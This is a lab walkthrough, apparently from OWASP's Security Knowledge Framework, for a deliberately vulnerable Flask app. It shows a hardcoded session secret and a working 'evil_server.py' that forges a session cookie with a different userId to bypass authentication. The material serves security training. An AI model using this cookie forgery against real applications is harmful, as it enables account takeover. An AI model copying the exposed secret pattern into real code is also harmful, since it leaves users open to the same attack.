 # Auth-Bypass

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:auth-bypass
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:auth-bypass
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Let's login with admin/admin:

![](../../.gitbook/assets/python/Auth-Bypass/1.png)

Once we login we see an API key.

![](../../.gitbook/assets/python/Auth-Bypass/2.png)

Let's have a look at the source code:

```python

app.config.update(dict(
    SECRET_KEY= "e5ac-4ebf-03e5-9e29-a3f562e10b22",
    SESSION_COOKIE_HTTPONLY = True
))

@app.route("/login", methods=['GET', 'POST'])
def login():
    sqli  = Classes()
    if request.method == "POST":
        values = sqli.getUser(request.form['username'])
        if values:
            if values[0][2] == request.form['password']:
                session['userId'] = values[0][0]
                session['secret'] = app.config['SECRET_KEY']
                session['loggedin'] = True
                pref = sqli.getApi(values[0][0])
                api = pref[0][0]
                return render_template("loggedin.html", api = api)
        return render_template("index.html")
    else:
        pref = sqli.getApi(session['userId'])
        api = pref[0][0]
        return render_template("loggedin.html", api = api)
```

We can see the cookie session secret is exposed, now we can try to recreate this application cookie implementation to be able to recreate a cookie to bypass the authentication.

## Exploitation

We can start building our malicious server.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response, session

app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config.update(dict(
    SECRET_KEY= "e5ac-4ebf-03e5-9e29-a3f562e10b22",
    SESSION_COOKIE_HTTPONLY = False
))

app.config['DEBUG'] = True

@app.route("/")
def start():
    session['userId'] = 2 # CHANGING USER ID
    session['secret'] = app.config['SECRET_KEY']
    session['loggedin'] = True
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; evil_server.py and run the commands below to install some dependencies.
Of course you can also run your app on whatever service you want it does not have to be python flask.

```text
$ pip3 install flask
```

Save the following snippet code into /templates/evil.html

```html
<p>The newly created cookie for doing the bypass:</p>
<script>
  alert(document.cookie);
</script>
```

We are ready to start our server:

```text
$ python3 evil_server.py
```

![](../../.gitbook/assets/python/Auth-Bypass/3.png)

Now we can replace our original cookie with the tampered cookie.

![](../../.gitbook/assets/python/Auth-Bypass/4.png)

Send the request again:

![](../../.gitbook/assets/python/Auth-Bypass/5.png)

## Additional sources

{% embed url="https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/04-Testing_for_Bypassing_Authentication_Schema" %}
